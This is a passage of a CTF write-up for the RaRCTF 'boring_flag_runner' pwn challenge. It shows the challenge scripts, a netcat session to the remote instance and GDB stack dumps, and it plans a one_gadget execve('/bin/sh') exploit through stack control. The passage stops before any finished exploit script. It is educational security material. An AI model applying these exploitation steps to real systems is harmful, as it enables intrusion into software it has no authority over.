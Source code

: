 ```  

cd /challenge  
FILENAME=$(cat /dev/urandom | tr -cd 'a-f0-9' | head -c 16)  
python3 getprog.py /tmp/$FILENAME  
timeout 10 ./boring-flag-checker /tmp/$FILENAME > /dev/null  
rm /tmp/$FILENAME  
```  
```  
import sys

prog = input("enter your program: ").encode("latin-1")  
open(f"{sys.argv[1]}", "wb").write(prog[:4000])  
```  
The last hiccup is that when I attempt to pass my Hello World! script to the
remote instance, seemingly nothing happens:  
```  
knittingirl@piglet:~/CTF/RaRCTF/boring_flag_runner$ nc 193.57.159.27 28643  
enter your program:
GGGGGGGGC@GGGGC@GG@GGG@GGG@GBBBBFA@G@G@F@@GCBABFA@@E@FFFEGGGGGGGEEGGGE@@EBFEBEGGGEFFFFFFEFFFFFFFFE@@GE@GGE  
```  
Eventually, I realized that the problem was in the start.sh script; it is
piping my output to /dev/null rather than letting me see it. As a result,
while I can write pretty much whatever exploit script I want, I will not be
able to get any visible leaks.  
```  
timeout 10 ./boring-flag-checker /tmp/$FILENAME > /dev/null  
```

## Planning the Exploit

So, we effectively have complete control over the stack, albeit with no way to
leak data to the console. When we run the binary by itself in GDB, we see that
rbp itself is empty, rbp+0x8 contains a libc address, and rbp+0x10 contains
another libc address.  
```  
gef➤  x/gx $rbp  
0x7fffffffdfd0: 0x0000000000000000  
gef➤  x/gx $rbp+0x8  
0x7fffffffdfd8: 0x00007ffff7ded0b3  
gef➤  x/gx $rbp+0x10  
0x7fffffffdfe0: 0x00007ffff7ffc620  
gef➤  x/5i 0x00007ffff7ded0b3  
  0x7ffff7ded0b3 <__libc_start_main+243>:       mov    edi,eax  
  0x7ffff7ded0b5 <__libc_start_main+245>:       call   0x7ffff7e0fbc0
<__GI_exit>  
  0x7ffff7ded0ba <__libc_start_main+250>:       mov    rax,QWORD PTR [rsp+0x8]  
  0x7ffff7ded0bf <__libc_start_main+255>:       lea    rdi,[rip+0x18fda2]
# 0x7ffff7f7ce68  
  0x7ffff7ded0c6 <__libc_start_main+262>:       mov    rsi,QWORD PTR [rax]  
```  
At this point, I set a breakpoint for the very end of the main function, then
checked the value of the rsi and rdx registers at that point. As I discussed
in the writeup for "The Guessing Game" from this CTF
(https://github.com/knittingirl/CTF-
Writeups/tree/main/pwn_challs/RaRCTF/Guessing_Game), this version of libc has
a onegadget that should be satisfied if the value or contents of rsi are 0,
and the value or contents of rdx is 0. Both are true at the point that this
gadget would be triggered. We would also need to set the value in rbp such
that it - 0x78 is a writable address.  
```  
knittingirl@piglet:~/CTF/RaRCTF/guessing$ one_gadget
libc6_2.31-0ubuntu9.2_amd64.so  
0xe6e73 execve("/bin/sh", r10, r12)  
constraints:  
```
